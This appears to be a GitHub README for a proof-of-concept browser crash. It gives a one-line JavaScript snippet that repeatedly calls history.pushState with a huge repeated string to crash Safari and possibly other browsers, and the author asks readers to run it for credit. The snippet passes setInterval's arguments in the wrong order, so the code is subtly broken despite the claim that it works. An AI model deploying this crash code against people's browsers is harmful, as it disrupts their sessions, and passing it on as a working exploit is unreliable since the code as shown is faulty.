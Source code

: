 # safari_crash_poc
This is a POC of my bug that exploits "setInterval" and "history.pushState" to crash possibly multiple browsers, tested on OS X 10.11.6. (Please test it, I need to get an idea of support. I'll patch in your Twitter handle or give you a 3 character available GitHub. )
```
setInterval(350,function f() {history.pushState(0,0,location+"ihateyou".repeat(100000));});
```
# credits
There are none. Yet. 
